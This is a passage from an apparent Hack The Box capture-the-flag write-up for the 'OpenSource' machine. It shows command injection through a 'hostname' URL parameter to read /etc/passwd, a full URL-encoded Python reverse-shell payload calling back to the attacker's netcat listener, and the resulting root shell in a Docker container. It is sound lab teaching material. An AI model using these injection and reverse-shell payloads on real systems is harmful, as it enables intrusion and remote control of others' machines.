 `views.py`will become `..//app/app/views.py`, as we know from the source code that this is the original path where the file is located.

![HTB_shellUpload](/img/htb/opensource/shell_upload.png)

Now if we wisit the following URL `http://10.10.11.164/ventilator?hostname=x;cat%20/etc/passwd`, we will also see the content of `/etc/passwd`, confirming the reverse shell is working correctly:

![HTB_revShell](/img/htb/opensource/rev_shell.png)

&nbsp;

# User Shell

To obtain the reverse shell on our machine, we just need to append a command that will call black to a `nc` listener on our attacking machine (it is not possible to get any output from the reverse shell on the web page):

For example:

````bash
http://10.10.11.164/ventilator?hostname=x;export%20RHOST=%2210.10.16.37%22;export%20RPORT=4545;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27

# where 10.10.16.37 is the attacker machine's IP and port 4545 is the port where nc is listening
# the reverse shell was generated on https://www.revshells.com
````

We get access to the target from our attacking machine:

`````
$ nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.16.37] from (UNKNOWN) [10.10.11.164] 43656
/app # hostname
hostname
013fa42e999f
/app # whoami 
whoami
root
/app #         
`````

And we can state we are in a docker container by giving a look at `/`:

````
/app # ls -als /
ls -als /
total 72
     4 drwxr-xr-x    1 root     root          4096 Jul  7 10:48 .
     4 drwxr-xr-x    1 root     root          4096 Jul  7 10:48 ..
     0 -rwxr-xr-x    1 root     root             0 Jul  7 10:48 .dockerenv
     8 drwxr-xr-x    1 root     root          4096 May  4 16:35 app
     4 drwxr-xr-x    1 root     root          4096 Mar 17 05:52 bin
...
````
